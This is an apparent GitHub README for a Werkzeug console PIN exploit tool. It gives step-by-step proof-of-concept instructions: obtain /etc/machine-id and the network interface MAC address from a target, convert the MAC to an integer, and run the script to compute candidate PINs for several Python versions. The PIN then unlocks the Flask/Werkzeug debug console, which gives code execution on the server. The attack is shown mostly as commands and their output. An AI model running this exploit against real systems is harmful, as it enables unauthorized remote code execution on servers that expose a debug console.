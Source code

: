 # Werkzeug Console PIN Exploit
![alt text](https://github.com/ahrixia/flask-console-pin-generator/blob/main/poc-img/Werkzeug_Console_OUT.png "Locked Console")
### Tested on :
- Python 3.6.9
- Server - Werkzeug 1.0.1
- Linux 4.15.0-20-generic #21-Ubuntu x86_64 GNU/Linux

## Proof of Concept - POC
1. Get `/etc/machine-id` and `/sys/class/net/$INTERFACE/address` from the target. 
3. Convert the Interface address(MAC) to integer form. Eg- `00:50:56:bf:d7:70` to `345052796784`. This could be done using python as follows:
```python
>>> print(0x005056bfd770)
345052796784
```
3. Run the python script.
```bash
$python3 as.py --uuid 345052796784  --machineid 00566233196142e9961b4ea12a2bdb29 
[!] App.py base path not provided, trying on Python Versions - 2.7 and 3.0 - 3.8.
Python V2.7 PIN: 134-138-423
Python V3.0 PIN: 278-866-810
Python V3.1 PIN: 299-529-114
Python V3.2 PIN: 223-757-906
Python V3.3 PIN: 181-173-573
Python V3.4 PIN: 201-362-587
Python V3.5 PIN: 195-645-696
Python V3.6 PIN: 328-723-543
Python V3.7 PIN: 300-924-247
Python V3.8 PIN: 880-398-758
```
4. Use the PIN with the Python Version installed on the target to get into the console.
![alt text](https://github.com/ahrixia/flask-console-pin-generator/blob/main/poc-img/Werkzeug_Console_IN.png "Unlocked Console")
---
**NOTE**: This script runs with some default infomation such as Username as www-data and Hash as MD5. You can run the `-h` flag for more information.
